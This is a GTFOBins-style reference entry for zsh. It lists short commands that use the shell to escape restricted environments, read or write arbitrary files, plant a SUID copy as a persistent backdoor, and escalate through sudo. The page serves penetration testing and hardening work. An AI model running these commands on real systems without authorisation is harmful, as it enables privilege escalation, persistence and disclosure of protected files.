 # GTFOBin: zsh

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
zsh
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
export LFILE=file_to_write
zsh -c 'echo DATA >$LFILE'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
export LFILE=file_to_read
zsh -c 'echo "$(<$LFILE)"'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which zsh) .

./zsh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo zsh
```